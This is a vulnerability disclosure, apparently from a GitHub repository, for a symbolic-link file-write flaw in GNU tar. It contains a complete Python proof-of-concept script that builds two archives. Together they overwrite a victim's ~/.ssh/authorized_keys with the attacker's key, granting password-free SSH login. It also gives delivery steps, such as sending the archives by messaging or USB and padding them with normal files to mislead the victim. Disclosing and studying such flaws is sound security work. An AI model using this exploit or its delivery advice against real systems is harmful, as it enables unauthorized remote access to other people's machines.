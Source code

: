 # Gnu tar component has a symbolic link arbitrary file write vulnerability
Author: Set3r.Pan
## Report
### Describe
tar is a file packaging format widely used in Unix and Unix-like systems (such as Linux), which supports processing files or directories containing symbolic links (i.e. soft links). The vulnerability stems from the fact that when tar is decompressed, an attacker can construct a malicious tar package with soft links to implement directory traversal and write arbitrary files, such as creating a ~/.ssh/authorized_keys file, thereby implementing a password-free login attack.
### Hazard level
High
### Affected version
Gnu tar < 1.35 

### POC&&EXP
explanation： 
Prerequisites for exploitation: You need to know the SSH username of the other host.  
1. Modify tar_poc.py  
Line 12: obj1.linkname = "/home/ubuntu/" # Replace with the actual victim machine home directory path  
Line 39: ssh_pubkey = "/home/kali/.ssh/id_rsa.pub" # Replace with the actual attack machine's SSH public key path  
2. Send the two generated compressed packages to the victim via instant messaging software or other media such as a USB flash drive.(The compressed file can also be filled with some normal files to confuse the other party
)  
3. The victim can unzip them in any directory.  
4. The attacker logs in to the victim's machine without a password.  
tar_poc.py  
```
import socket
import tarfile
import os

RANDOM_DIR_NAME = "my_directory"  # Define random directory names

def build_tar_gz_1(tar_gz_file):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}".format(RANDOM_DIR_NAME)  # Set the name of the soft link
    obj1.mode = 0o777  # Set permissions
    obj1.type = tarfile.SYMTYPE  # Set as a soft link
    obj1.linkname = "/home/ubuntu/"  # Replace with the actual victim machine home directory path

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add soft link to tar.gz

def build_tar_gz_2(tar_gz_file, ssh_pubkey):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}/.ssh/".format(RANDOM_DIR_NAME)
    obj1.mode = 0o700
    obj1.type = tarfile.DIRTYPE

    obj2 = tarfile.TarInfo()
    obj2.name = "{}/.ssh/authorized_keys".format(RANDOM_DIR_NAME)
    obj2.mode = 0o400
    obj2.type = tarfile.REGTYPE
    obj2.size = os.path.getsize(ssh_pubkey)

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add .ssh directory
        with open(ssh_pubkey, "rb") as f:
            tar.addfile(obj2, f) # Add authorized_keys file

# Create 1tar.gz file
tar_gz_file = "my_archive1.tar.gz"
build_tar_gz_1(tar_gz_file)  # Create a tar.gz file containing soft links

# Create 2tar.gz file
tar_gz_file = "my_archive2.tar.gz"
ssh_pubkey = "/home/kali/.ssh/id_rsa.pub"  # Replace with the attacker's actual SSH public key path
build_tar_gz_2(tar_gz_file, ssh_pubkey)  # Create a tar.gz file containing the SSH configuration

```
### Vulnerability Reproduction
1、The attacker can send the two tarballs generated by the POC to the victim through instant messaging software or other media such as a USB flash drive. The victim receives and decompresses them in turn:
![](./imgs/Gnu_tar_vuln_1.png)
2、Successfully overwrote .ssh/authorized_keys：
![](./imgs/Gnu_tar_vuln_2.png)
3、Finally, the attacker can log into the victim's machine through SSH without password.
![](./imgs/Gnu_tar_vuln_3.png)

Reproduction video：  
[Watch the repro video](./imgs/Gnu_tar_vuln_3.mp4)
### Attack Exploitation Analysis
There are two risk points in the tar decompression process:  
1. Uncontrollable soft links  
If the tar file contains soft links (symbolic links), any file or directory can be executed across directories. Attackers can use this to create links to important system files or directories.  
2. File name conflicts  
During the decompression process, if there is a file with the same file name as the decompressed file, tar will overwrite the existing file. If the file is a soft link, it will directly overwrite the target file or directory pointed to by its soft link.

An attacker can use the above risk points to attack by making two tar compressed packages:  
- a. Make the first tar package, which contains a soft link to the user's home directory (for example, my_directory);  
- b. Make the second tar package to overwrite the .ssh folder in the user's home directory (for example, my_directory);  
- c. The user decompresses the two packages, first decompresses the first package to create a soft link, and then decompresses the second package to overwrite the .ssh folder;  
- d. The attacker controls the .ssh folder in the home directory through the soft link, and finally obtains the ssh password-free login permission.  
